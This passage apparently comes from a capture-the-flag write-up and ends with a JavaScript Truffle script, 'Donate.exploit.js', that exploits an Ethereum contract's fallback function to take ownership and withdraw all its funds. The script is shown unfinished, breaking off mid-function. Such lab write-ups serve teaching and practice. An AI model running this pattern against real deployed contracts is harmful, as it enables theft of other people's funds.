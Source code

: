 ![image](/assets/img/hackthebox/bitlab/pwn.PNG)

now we are rich and our dreams became true *_____* :D

check the final automated exploit

```javascript

/* Donate.exploit.js */
const DonateContract = artifacts.require('Donate')


async function execute(callback) { 

    // get attacker address
    let badBoy = web3.eth.accounts[1]
    console.log(`badBoy address: ${badBoy}`)

    let contract = await DonateContract.deployed()

    // Check who's the owner
    let contractOwner = await contract.owner.call()
    console.log(`Contract owner: ${contractOwner}`)


    // 1. Make a small contribution less than 0.001 ether
    await contract.contribute({
        from: badBoy,
        value: web3.toWei(0.0005, 'ether')
    })

    console.log('contribution has made........')

    // // 2. get my contribution
    let contribBadBoy = await contract.getContribution({from: web3.eth.accounts[1]})

    
    console.log(`my contribution is ` + web3.fromWei(contribBadBoy.toNumber()), 'ether')
    

    console.log('start attacking contract');
    await contract.sendTransaction({
        from: badBoy ,
        value: web3.toWei(0.00000001, 'ether')
    })

    const changeContractOwner = await contract.owner.call()

    if( changeContractOwner == badBoy) {
        console.log(`Pwn contract successfully done , now ownership is transferring for badboy account ${badBoy}`)
    }

    console.log('withdraw all fund now with a new owner')
    let response = await contract.withdraw({
        from: web3.eth.accounts[1]
    })

```
